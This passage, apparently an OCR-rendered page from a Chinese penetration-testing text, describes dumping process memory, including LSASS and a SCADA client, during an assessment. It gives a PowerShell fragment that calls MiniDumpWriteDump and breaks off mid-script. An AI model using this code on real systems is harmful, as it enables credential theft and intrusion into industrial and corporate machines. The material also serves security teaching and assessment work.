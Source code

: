 如你所想，我们可以针对任何我们想要的进程。在一次评估中，我获得了对 SCADA 设备的访问，并使用这段脚本从管理工业过程的专有客户端中转储了内存。我们为 `$lsass` 的每个属性声明了变量，并定义了转储文件的目标位置——本地桌面：

```
$FileStream = New-Object IO.FileStream($ProcessFileName, [IO.FileMode]::Create)
```

```
$Result = $MiniDumpWriteDump.Invoke($null, @(
```

```
    $ProcessHandle,
```

```
    $ProcessId,
```

```
    $FileStream.SafeFileHandle,
```

```
    $MiniDumpfull,
```

```
    [IntPtr]::Zero,
```

```
    [IntPtr]::Zero,
```

```
    [IntPtr]::Zero))
```

```
$FileStream.Close()
```

```
If (-not $Result) {
```

```
    $Exception = New-Object ComponentModel.Win32Exception
```

```
    $ExceptionMessage = "$($Exception.Message) ($($ProcessName):$($ProcessId))"
```

```
    Remove-Item $ProcessFileName -ErrorAction SilentlyContinue
```

```
    Throw $ExceptionMessage
```

```
} Else {
```

